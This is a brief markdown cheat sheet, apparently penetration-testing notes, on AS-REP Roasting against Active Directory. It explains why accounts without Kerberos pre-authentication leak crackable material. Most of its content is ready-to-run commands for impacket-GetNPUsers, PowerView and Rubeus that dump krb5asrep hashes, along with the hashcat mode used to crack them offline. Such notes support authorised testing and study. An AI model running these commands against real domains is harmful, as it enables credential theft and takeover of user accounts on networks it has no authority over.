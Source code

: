 # asrep roasting

AS-REP Roasting works only for users with Kerberos pre-authentication disabled

* Dumps the **krbasrep5 hashes** of user accounts
* If pre-authentication is disabled, you can request any authentication data for any user and the KDC will return an
  encrypted TGT that can be cracked offline because the KDC skips the step of validating that the user is really who
  they say that they are.
* This means that the account does not need to provide valid identification before requesting a Kerberos Ticket on the
  specified user account.

## Usage

### using impacket

```bash
# Enumerate the users > user.txt
impacket-GetNPUsers DOMAIN/ -usersfile user.txt -format hashcat [-outputfile hash]
impacket-GetNPUsers DOMAIN/USER -no-pass -dc-ip IP -format hashcat
impacket-GetNPUsers -dc-ip IP -request DOMAIN/
# hashcat -m 18200
```

### using powerview

```bash
Get-DomainUser -PreauthNotRequired -Verbose
```

### using rubeus

```bash
Rubeus.exe asreproast /format:hashcat /domain:DOMAIN [/outfile:FILE]
# add $23 after $krb5asrep$
# hashcat -m 18200
```